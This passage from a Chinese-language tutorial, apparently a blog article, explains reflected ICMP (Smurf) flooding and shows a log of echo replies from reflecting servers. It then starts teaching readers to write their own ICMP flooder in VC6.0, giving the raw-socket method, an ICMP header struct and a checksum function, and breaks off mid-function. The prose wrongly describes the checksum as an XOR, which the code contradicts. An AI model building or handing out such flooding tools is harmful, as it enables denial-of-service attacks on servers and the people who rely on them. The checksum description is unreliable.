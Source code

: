 4、反射ICMP Flood
估计现在Smurf攻击还没有多少人会用（R-Series的RSS.EXE就是做这事的，RSA.EXE和RSC.EXE分别用作SYN反射和UDP反 射），所以这种方法还没有大规模出现，但Smurf是存在的！而且这个攻击方法比前面几种更恐怖，因为攻击你的是大网站（或一些受苦受难的服务器）！
我正在被网易、万网和新浪网站攻击中（懒得修改天网策略，直接用其他工具抓的。实际攻击中，反射的IP会多几倍！）
```
[15:26:32] RECV:ICMP Packet from 202.108.37.36 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 202.108.36.206 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 202.108.37.36 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 202.108.36.206 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 202.108.37.36 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52) 
[15:26:32] RECV:ICMP Packet from 202.108.36.206 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 202.108.36.206 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 202.108.37.36 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 202.108.37.36 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 202.108.36.206 (Type=0,Code=0,Len=52)
[15:26:33] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52)  
[15:26:33] RECV:ICMP Packet from 202.108.37.36 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 202.108.36.206 (Type=0,Code=0,Len=52) 
[15:26:33] RECV:ICMP Packet from 210.192.103.30 (Type=0,Code=0,Len=52) 
```
可以看出，攻击者使用的是32bytes的ECHO请求，所以服务器返回52-20=32bytes的REPLY报文，在这个情况下，天网是不会报警的。

还是那句话，报警也没用了。

八、自己编写ICMP Flooder
以上说的都是理论，如何才能自己写一个呢？相信很多人已经跃跃欲试了，下面就用VC6.0来写一个直接的ICMP Flooder（能在Win98/Me环境使用）……先等等——最重要的是原理。

1.程序原理
当然不能用IcmpSendEcho来做，我们必须自己从最原始的IP报文里做一个。构造一个SOCK_RAW报文后，填充ICMP数据和计算校验和（CheckSum），循环sendto发出去就完成了，so easy！

2.ICMP报文的声明
一个ICMP报文包括IP头部、ICMP头部和ICMP报文，用IPPROTO_ICMP创建这个类型的IP包，用以下结构填充：
typedef struct _ihdr
{
   BYTE i_type; //8位类型
   BYTE i_code; //8位代码
   USHORT i_cksum; //16位校验和
   USHORT i_id; //识别号
   USHORT i_seq; //报文序列号
   ULONG timestamp; //时间戳
}ICMP_HEADER;

这样我们就声明了一个ICMP报文结构，就等后面的填充了。

3.校验和
计算方法：先设置头校验和域的数值为0，然后对整个数据报头按每16位求异或，再把结果取反，就得到了校验和。
函数：
USHORT checksum(USHORT *buffer, int size)
{
   unsigned long cksum=0;
   while(size >1)
    {
      cksum+=*buffer++;
      size -=sizeof(USHORT);
    }
   if(size )
    {
      cksum += *(UCHAR*)buffer;
    }
   cksum = (cksum >> 16) + (cksum & 0xffff);
   cksum += (cksum >>16);
